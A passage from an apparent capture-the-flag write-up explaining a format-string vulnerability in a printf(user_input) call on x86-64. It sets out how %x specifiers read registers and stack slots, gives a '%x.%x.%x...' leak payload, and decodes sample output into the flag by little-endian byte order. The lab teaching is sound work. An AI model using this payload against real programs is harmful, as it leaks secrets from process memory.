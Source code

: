
## Phase 3: Exploitation Technique

### 3.1 Format String Basics

Format strings allow printf to read from arbitrary stack locations:

```
%x    - Read and print 32-bit value as hex
%s    - Read and print string (dereference pointer)
%p    - Read and print pointer value
```

Each format specifier consumes one argument from the call stack.

### 3.2 Argument Passing in x86-64

When printf() is called with only a format string:
```c
printf(user_input);  // user_input is in RDI
```

Subsequent `%x` specifiers read from:
1. RSI (0)
2. RDX (0)
3. RCX (0)
4. R8 (0)
5. R9 (0)
6. Stack location 1 (first local var on stack)
7. Stack location 2 (next local var)
... and so on

### 3.3 Payload Construction

**Simple Payload:** `%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x...`

This leaks approximately 12 consecutive 32-bit stack values separated by dots.

### 3.4 Leaked Data Interpretation

**Example Output:**
```
da8b9e30.0.0.0.0.7b4d4854.67616c66.65746361.7d58...
 ↓       ↓ ↓ ↓ ↓ ↓         ↓         ↓         ↓
Index 0: Random value
Index 1-4: Stack padding (zeros)
Index 5: 0x7b4d4854 = "THM{" (little-endian: 54 48 4d 7b)
Index 6: 0x67616c66 = "flag" (little-endian: 66 6c 61 67)
Index 7: 0x65746361 = "acte" (little-endian: 61 63 74 65)
Index 8: 0x7d58 = "X}" (little-endian: 58 7d)
```

### 3.5 Decoding Little-Endian Bytes
